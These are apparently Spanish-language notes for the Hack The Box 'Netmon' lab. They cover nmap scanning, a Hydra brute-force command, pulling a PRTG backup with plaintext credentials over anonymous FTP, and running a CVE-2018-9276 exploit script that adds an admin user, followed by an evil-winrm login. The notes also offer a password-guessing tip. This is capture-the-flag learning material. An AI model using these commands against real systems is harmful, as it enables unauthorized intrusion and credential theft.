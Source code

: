 1)¿Cuál es el nombre de la aplicación que se ejecuta en el puerto 80? Dadas las tres palabras del logotipo.
	PRTG Network Monitor

2)¿Qué servicio se ejecuta en el puerto TCP 21?
	ftp

*La pregunta anterior es la flag de user.txt*
4)¿Cuál es la ruta completa de la carpeta donde PRTG Network Monitor guarda sus archivos de configuración por defecto?
	`C:\ProgramData\Paessler\PRTG Network Monitor`

5)¿Cuál es el nombre del archivo de configuración de copia de seguridad?
	PRTG Configuration.old.bak

6)¿Cuál era la contraseña del usuario prtgadmin según ese archivo?
	PrTg@dmin2018

7)¿Cuál es ahora la contraseña del usuario prtgadmin en el sitio web?
	PrTg@dmin2019

8)¿Qué versión de PRTG está instalada?
	18.1.37.13946

9)¿Con qué usuario se ejecuta este software por defecto? No incluya nada antes de un \
	system
	tasklist /v | findstr PRTG                        [[findstr]] [[tasklist]]
	![[Netmon17.png]]




--------
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.10.10.152
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.152 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.10.10.152 -oN target
```

![[Netmon1.png]]
![[Netmon2.png]]
![[Netmon3.png]]
![[Netmon4.png]]
![[Netmon5.png]]
*TTL:* Maquina windows
*Puertos Relevantes:*
	`21` [[ftp]]
	`80` HTTP
	`445` [[smb]]
	`47001 o 5985` Alguno de estos dos puertos puede llegar  tener un [[evil-winrm]]
*Datos importantes*
En el servicio de [[ftp]] nos podemos conectar como el usuario anonymous. Y en [[smb]] con el usuario guest


----
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.10.10.152
```

![[Netmon6.png]]

No nos da ningun dato relevante, tambien intente enumerar directorios con [[FFUF]] y no me dio ningun resultado

---------
# [[Hydra]]

Vamos a intentar sacar por fuerza bruta las credenciales
![[Netmon14.png]]

```
hydra -L /usr/share/SecLists/Usernames/top-usernames-shortlist.txt -P /usr/share/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt 10.10.10.152 http-post-form '/public/checklogin.htm:username=^USER^&password=^PASS^:F=Your login has failed. Please try again !' -t 64
```

![[Netmon10.png]]

![[Netmon9.png]]
Nos tira muchos falsos positivos, por que tarda en la respuesta, así que no podemos sacar credenciales con fuerza bruta

-------
# Intrusion por [[ftp]] user anonymnous

```shell
ftp 10.10.10.152 -p 21
```

![[Netmon7.png]]
![[Netmon8.png]]
Y sacamos la primera flag en el directorio */users/public/desktop/user.txt*

Ahora vamos al directorio por defecto donde se guardan los backups de PRTG Network Monitor
*/ProgramData/paessler/PRTG Network Monitor*

![[Netmon12.png]]
Vemos al archivo de bakcup y lo descargamos `get PRTG Configuration.old.ba`

Lo abrimos en nuestra maquina, tiene un contenido muy extenso, pero la informacion relevante es esta en las lineas 141 y 142. Nos otorga las credenciales *prtgadmin:PrTg@dmin2018*

![[Netmon13.png]]


------

# [[CVE-2018-9276]]

Buscamos vulnerabilidades con [[searchsploit]] con el comando ``searchsploit prtg``
![[Netmon19.png]]
Descargamos la siguiente ``searchsploit  -m windows/webapps/46527.sh``
Le damos permiso de ejecucion con `chmod +x 46527.sh` y luego lo ejecutamos

La cookie de sesion la ponemos con el parametro *-c* y la sacamos de la pagina donde ya estamos logeado con las credenciales que sacamos previamente en `http://10.10.10.152/welcome.htm`, pero cambiando la contraseña a *PrTg@dmin2019*
![[Netmon20.png]]
```
./46527.sh -u http://10.10.10.152 -c "OCTOPUS1813713946=e0FDMjQ3RTg0LTc0MzEtNDUyNy1BNzU2LTI0MTZEM0ExM0YwMX0%3D"

```
![[Netmon15.png]]
Este exploit lo que hace es crear un nuevo usuario en el windows, con permisos de administrador, y las credenciales van a ser pentest:P3nT3st!

## Conexion a la maquina con [[evil-winrm]]
Nos conectamos con esta herramienta por que habiamos visto en el escaneo de nmap que estaba activo el servicio por el puerto 47001
Y ya podemos catear la flag
```
evil-winrm -i 10.10.10.152 -u pentest -p 'P3nT3st!'
```

![[Netmon16.png]]

----------
# Notas
Si una contraseña tiene un año antiguo, probar cambiar la contraseña al año actual, por ejemplo. Si la contraseña dice admin2018, y estamos en el 2019, probar admin2019

---------
# Creditos
[Proyecto github A1vinSmith](https://github.com/A1vinSmith/CVE-2018-9276) Me guio un poco en la parte del CVE